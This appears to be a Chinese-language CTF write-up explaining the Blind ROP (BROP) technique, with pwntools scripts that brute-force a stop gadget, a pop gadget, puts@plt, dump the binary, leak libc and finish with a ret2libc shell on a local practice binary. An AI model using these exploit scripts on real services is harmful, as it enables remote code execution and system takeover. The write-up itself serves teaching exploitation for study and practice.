







# BROP

brop 一种没有二进制程序，只有一个程序服务的情况下，该程序存在栈溢出，可以通过栈溢出和程序特性进行 ROP 攻击并且提权的攻击方法。

利用前提：

1. 存在栈溢出漏洞
2. 没有开启 canary 或者 开启 pie 
3. 即使开启了 canary 或者 开启了 pie。但是 canary 和 pie 不变，这样就能够爆破得到 canary 和 pie。(多线程)


### brop 如何判断是否存在 canary 和 pie

如果存在 canary 则显示



如果没有开启 canary

PS : 也有可能是溢出长度不够，那么这样就可以增加溢出长度测试， < 0x1000


回头看这道题目，明显这道题目没有 canary ，默认没有开启 pie，很难去控制 pie 是不变。

如果是多线程题目，那么也是很容易去通过溢出判断的，即程序 crash 后，还能继续重启。


### STEP 1 : 获取 stop_gadget ( _start 函数地址 )

stop_gadget 是一个可以帮助我们判断其它 gadget 的一个帮助指令，执行 stop_gadget 后，程序会自动挂起

难点 ： 溢出长度不确定。没有解决方法，只能爆破

爆破函数代码如下

```py
def find_stop_gadget(buf_size, start_addr = 0x400000, end_addr = 0x401000):
    stop_gadget = start_addr
    while True:
        time.sleep(0.1)
        stop_gadget += 1
        if(stop_gadget > end_addr):
        	log.info('not found!')
        	return 0
        payload = b'a' * buf_size + p64(stop_gadget)
        try: 
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            p.recv()
            p.close()
            return stop_gadget
        except EOFError as e:
            p.close()
            log.info("not 0x%x, try harder!", stop_gadget)
def get_stop_gadget():
	for i in range(0x8, 0x100, 8):
		rl = find_stop_gadget(i, 0x400000)
		if(rl):
			log.info("find one stop gadget: 0x%x", rl)
			break
```

如果在爆破过程当中卡住了，则说明溢出长度已经被找到了，并且该爆破地址是程序当中 plt 表的地址。会跳到别的函数去执行了

通过爆破可以知道，stop_gadget 为 0x400570




### ELF 程序特性之一 ： 固定存在的 pop6_ret 及其意义

可以发现，平时所使用的 pop rdi ; ret 和 pop rsi; pop r15 ; ret ，都是从 pop6_ret 截取出来的



而 pop6_ret 是 __libc_csu_init 函数所固有的。 

PS : ret2csu 的一个好处，就是能够控制 rdx 。

gcc - 11 之后的版本，取消了 pop6_ret 这个指令。这也是编译时候的一个安全保护


### STEP 2 :  获取 pop rdi ; ret -> pop6_ret 指令

爆破方法 : 即利用 pop6_ret 的独特性

```py
sa(b'>>\n', b'a'*0x18 + p64(pop6_ret) + p64(1)*6 + p64(stop_gadget)) 
```

明显的，直接爆破 pop rdi ; ret 是不可行的

```python
sa(b'>>\n', b'a'*0x18 + p64(pop_rdi_ret) + p64(1) + p64(stop_gadget)) 
```

因为不能保证爆出的一定是 pop_rdi_ret

爆破函数代码

```python
def find_pop6_ret(buf_size, stop_gadget, start_addr = 0x400000, end_addr = 0x401000):
    pop6_ret = start_addr
    stop_gadget = stop_gadget

    while True:
        time.sleep(0.1)
        pop6_ret += 1
        if(pop6_ret > end_addr):
        	log.info('not found')
        	return 0
        payload = b'a' * buf_size + p64(pop6_ret) + p64(0) * 6 + p64(stop_gadget) 
        try:
            p = process('./brop')
            p.sendafter('>>\n', payload)
            resp = p.recv(timeout=0.5)
            p.close()
            log.info("find one stop_gadget: 0x%x", pop6_ret)

            if b'>>' in resp:
                try:
                    payload = b'a' * buf_size + p64(pop6_ret)
                    p = process('./brop')
                    p.sendafter('>>\n', payload)
                    p.recv()
                    p.close()
                except EOFError as e:
                    p.close()
                    log.info("find useful gadget: 0x%x", pop6_ret)
                    return pop6_ret
        except EOFError as e:
            p.close()
            log.info("not 0x%x,try harder", pop6_ret)
```

还有一种，即 pop6_ret 是 main 函数地址时候

这个时候，如果再次发送如下的 payload

```py
payload = b'a' * buf_size + p64(pop6_ret)
```

如果 pop6_ret 是 main_addr ，那么又会重新回到 main 函数，即程序又有输出

如果 pop6_ret 是 pop6_ret ，那么程序就回不到 main 函数了

根据这两者的差异，就可以判断 pop6_ret 是不是一个 main 函数（也能够确认 main 函数地址）



可以找到 pop6_ret 为 0x40075a ，pop rdi ; ret 的地址就是 0x40075a + 9 ，ret 的地址就是 0x40075a + 0xa


### ELF 程序特性之二 ： ELF程序固定的数据头



可以看到，ELF程序固定的前四个字节为 \x7fELF，即 0x400000 -> \x7fELF


### STEP 3 : 获取 puts_plt

由于我们已经能够控制 rdi ，接下来，我们只需要爆破 puts_plt，如果能够输出 \x7fELF ，则说明获取到的是 puts_plt

爆破函数代码

```python
def find_puts_plt(buf_size, stop_gadget, start_addr = 0x400000, end_addr = 0x401000):
    elf_magic_addr = 0x400000
    puts_plt = start_addr

    while True:
        puts_plt += 1
        payload = b'a' * buf_size + p64(rdi) + p64(elf_magic_addr) + p64(puts_plt) + p64(stop_gadget)

        try:
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            resp1 = p.recvline(timeout=0.5)
            resp2 = p.recvline(timeout=0.5)

            if b'\x7fELF' in resp1 and b'>>\n' in resp2:
                p.close()
                log.info("puts_plt: 0x%x", puts_plt)
                return puts_plt
            p.close()
            log.info("find one stop gadget: 0x%x", puts_plt)

        except EOFError as e:
            p.close()
            log.info("not 0x%x, try harder", puts_plt)

```


### STEP 4 : dump 程序

获取了 puts_plt 之后，我们就已经能够泄露这个程序的二进制信息

爆破函数代码

```py
def dump_memory(buf_size, stop_gadget, puts_plt, start_addr=0x400000, end_addr = 0x401000):
    result = b''
    while start_addr < end_addr:
        sleep(0.1)
        payload = b'a' * buf_size + p64(rdi) + p64(start_addr) + p64(puts_plt)
        try:
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            resp1 = p.recv(timeout=0.5)
            if resp1 == b'\n':
                resp = b'\x00'
            elif resp1[-1:] == b'\n':
                log.info("[tail]leaking: 0x%x --> %s" % (start_addr, (resp or b'').hex()))
                resp = resp1[:-1] + b'\x00'
            else:
                resp = resp1
            
            if resp != resp1:
                log.info("[change]resp1: 0x%x: %s --> resp1: 0x%x: %s" % (start_addr, (resp1 or b'').hex(), start_addr, (resp or b'').hex()))

            log.info("leaking: 0x%x --> %s" % (start_addr, (resp or b'').hex()))
            result += resp
            start_addr += len(resp)
            p.close()
        except Exception as e:
            print(e)
            log.info("connect error")
    with open('pwn','wb') as f:
   		f.write(result)

```

注意：因为 puts 函数输出字符串末尾自带 \n ，所以我们要把 \n 删去，以防影响 dump 程序结果


### STEP 5 ：获取 puts_got

获取 puts_got 是为了能够 leak puts_addr ，以便能够确定远程靶机的 libc 版本。
在plt表中有一些公共表项，会跳到got表去执行。就因为它是_init_proc后的第一个函数，所以就可以判断这里是公共表项，再判断他是puts函数got表

将 dump 下来的内存丢入 IDA
在plt表中有一些公共表项，会跳到got表去执行。
通过上图即可判断出 puts_got -> 0x601018


### STEP 6 : 获取 libc 版本

python 工具 ： LibcSearcher 用在 exp 脚本里面的，可以获取 libc 版本

在线网站 ： https://libc.blukat.me/


### STEP 7：打 ret2libc

到这一步就很简单了

```py
p = process('./brop')
sa(b'>>\n', b'a'*0x18 + p64(rdi) + p64(0x601018) + p64(puts_plt) + p64(stop_gadget))
libc_base = l64() - libc.sym['puts']

lg('libc_base', libc_base)

ret = pop6_ret + 0xa
system, binsh = get_sb()

sa(b'>>\n', b'a'*0x18 + p64(ret) + p64(rdi) + p64(binsh) + p64(system))
inter()
```

